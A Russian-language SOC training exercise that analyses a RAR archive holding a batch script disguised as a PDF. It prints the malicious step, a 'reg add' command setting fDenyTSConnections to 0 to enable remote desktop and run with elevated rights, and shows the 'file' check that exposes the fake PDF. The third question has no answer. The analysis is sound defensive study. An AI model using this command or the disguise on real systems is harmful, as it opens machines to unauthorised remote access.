 # В архиве 567000-13.rar находится файл 567000-13.pdf. Если его открыть в архиваторе WinRAR (winrar-x64-602ru.exe) происходят «странные вещи».
## 1.	Опишите, что происходит.

    1) Отключает вывод команд на экран с помощью @echo off.

    2)Создает новый файл 01.bat в папке %appdata% (папка пользователя) со следующим содержимым:

    @echo off - отключает вывод команд на экран

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f - добавляет запись в реестр Windows, которая разрешает удаленные подключения к терминальному серверу.

    Запускает созданный файл 01.bat с повышенными правами администратора, используя PowerShell-команду Start-Process.

## 2.	Выделите признаки, по которым понятно, что происходят подозрительные действия.

┌──(root㉿kali)-[~/mnt/INT26/Задачи для интенсива. SOC/Task 4]

└─# file 567000-13/567000-13.pdf/567000-13.pdf\ .cmd 

567000-13/567000-13.pdf/567000-13.pdf .cmd: DOS batch file, ASCII text

Файл «567000-13/567000-13.pdf/567000-13.pdf .cmd» идентифицируется как пакетный файл DOS, который представляет собой текстовый файл в кодировке ASCII с расширением «.cmd». Это указывает на то, что файл является командным сценарием Windows, а не PDF-документом.



## 3.	Укажите каким образом можно удостовериться в том, удалось ли атакующему достичь цели.


